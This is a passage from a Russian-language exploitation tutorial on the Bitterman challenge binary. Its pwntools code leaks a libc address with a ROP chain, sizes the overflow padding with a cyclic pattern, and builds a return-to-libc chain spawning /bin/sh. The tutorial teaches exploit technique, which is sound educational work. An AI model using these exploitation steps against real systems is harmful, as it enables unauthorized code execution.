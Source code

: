 ```python
init-peda
start''')
"""

r.recvuntil('What\'s your name?')
r.sendline('snovvcrash')
r.recvuntil('Please input the length of your message:')
r.sendline('31337')
r.recvuntil('Please enter your text:')
r.clean()
raw_input('[?] Отправляю пейлоад?')
r.sendline(payload)
r.recvuntil('Thanks!')
received = r.recvuntil('What\'s your name?')[:8].strip()
leaked_puts = u64(received.ljust(8, '\x00'))
log.success('Слитый адрес puts@GLIBC: %s' % hex(leaked_puts))
```

В pwntools есть специальный класс `ROP`, который найдет за тебя все, что душе угодно (разумеется, в рамках разумного).

```python
rop.puts(bitterman.got['puts'])
rop.call(bitterman.symbols['main'])
```

Этими двумя строками я инициализирую ROP-цепочку тремя гаджетами: инструкции `pop rdi; ret` (находятся автоматически — даже ничего не нужно указывать в явном виде!), вызов `puts` с «самим собой» в качестве аргумента (чтобы стриггерить утечку адреса) и вызов `main`.

```python
junk = 'A' * (cyclic_find(unhex('6261616f')[::-1]) - 4)  # 'A' * 152
```

А здесь я на лету высчитываю нужный размер «мусорной» строки (помним, что он равен 152 байтам). Правда, чтобы это сработало, нужно скормить Bitterman циклический паттерн, который генерирует pwntools (а не PEDA — они различаются), и узнать 4 младших байта, лежащие в RSP (как мы делали уже не один раз).

Сгенерировать паттерн, который предлагает pwntools, можно с помощью такой простой команды.

```
$ python2 -c 'import pwn; print pwn.cyclic(500)'
```

После чего я взаимодействую с удаленным процессом: отправляю пейлоад и извлекаю «слитый» адрес `puts`.

### Фаза 2. Return-to-libc

Во второй фазе мы проворачиваем уже знакомую тебе атаку Return-to-libc, которая также отлично поддается автоматизации.

```python
# ----------------- Фаза 2. Return-to-libc -----------------

libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6')
libc.address = leaked_puts - libc.symbols['puts']
rop2 = ROP(libc)

log.info('Фаза 2. Return-to-libc')
rop2.system(next(libc.search('/bin/sh\x00')))
log.success('Составлен пейлоад для атаки ret2libc')
log.info('ROP2:\n' + rop2.dump())

payload2 = junk + str(rop2)

#r.recvuntil('What\'s your name?')
r.sendline('snovvcrash')
```

[//]: # (2019-10-23)